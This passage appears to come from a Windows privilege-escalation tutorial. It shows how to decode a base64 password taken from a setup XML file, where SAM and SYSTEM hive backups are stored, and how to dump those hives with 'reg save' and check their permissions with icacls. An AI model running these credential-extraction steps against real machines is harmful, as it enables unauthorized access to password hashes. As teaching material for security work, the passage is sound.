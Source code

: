 Noticed that there is a password field:

```xml
<Password>xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx</Password>
```

We can decode this base64 string and gather the password in plain text:

```shell
echo 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' | base64 -d
```

I won't recreate a scenario of this since this happens during the Windows Setup.

## SAM & SYSTEM Backups

The SAM and SYSTEM backups are usually stored in the following locations:

```bash
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM

%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

We're gonna create a backup of the SAM and SYSTEM files; to do this we must run it from an **administrator** command prompt or PowerShell console:

```powershell
C:\Windows\system32>reg save hklm\sam c:\sam
The operation completed successfully.

C:\Windows\system32>reg save hklm\system c:\system
The operation completed successfully.
```

Let's verify if we have access to these files as a low-privileged user:

```powershell
C:\Windows\system32>icacls C:\sam
C:\sam BUILTIN\Administrators:(I)(F)
       NT AUTHORITY\SYSTEM:(I)(F)
       BUILTIN\Users:(I)(RX)
       NT AUTHORITY\Authenticated Users:(I)(M)
       Mandatory Label\High Mandatory Level:(I)(NW)

Successfully processed 1 files; Failed processing 0 files

C:\Windows\system32>icacls C:\system
C:\system BUILTIN\Administrators:(I)(F)
          NT AUTHORITY\SYSTEM:(I)(F)
          BUILTIN\Users:(I)(RX)
          NT AUTHORITY\Authenticated Users:(I)(M)
          Mandatory Label\High Mandatory Level:(I)(NW)

Successfully processed 1 files; Failed processing 0 files
```
